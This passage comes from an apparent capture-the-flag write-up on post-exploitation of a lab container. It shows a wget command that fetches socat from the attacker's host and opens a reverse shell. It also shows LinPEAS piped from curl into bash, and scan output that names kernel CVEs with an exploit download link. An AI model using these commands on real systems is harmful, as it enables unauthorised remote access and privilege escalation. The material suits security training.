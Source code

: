 ```
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

**flag.txt:**
```
user@774c7a0d6226:/usr/src/app$ cat /usr/src/app/flag.txt
flag{Redacted}
```

## Privilege Escalation (Optional)

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

user@774c7a0d6226:/usr/src/app$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Templates]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/11/03 06:02:14 socat[16747] N opening character device "/dev/pts/2" for reading and writing
2022/11/03 06:02:14 socat[16747] N listening on AF=2 0.0.0.0:4444
                                                                 2022/11/03 06:02:23 socat[16747] N accepting connection from AF=2 10.10.15.9:56144 on AF=2 10.9.0.253:4444
                                                                2022/11/03 06:02:23 socat[16747] N starting data transfer loop with FDs [5,5] and [7,7]
                                            user@774c7a0d6226:/usr/src/app$ 
user@774c7a0d6226:/usr/src/app$ stty rows 23 columns 107
user@774c7a0d6226:/usr/src/app$ export TERM=xterm-256color
user@774c7a0d6226:/usr/src/app$ ^C
user@774c7a0d6226:/usr/src/app$ 
```

**I tried to find all the low hanging fruits except kernel exploit, like SUID sticky bit binaries, sudo permission, etc. But still no dice. So I'll run [LinPEAS](https://github.com/carlospolop/PEASS-ng) to find anything worth wild.**

**LinPEAS:**
```
┌──(root🌸siunam)-[/opt/PEAS]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

user@774c7a0d6226:/usr/src/app$ curl -s http://10.9.0.253/linpeas.sh | bash
[...]
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847
[...]
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: less probable
   Tags: ubuntu=(20.04|21.04),debian=11
   Download URL: https://haxx.in/files/dirtypipez.c
[...]
```
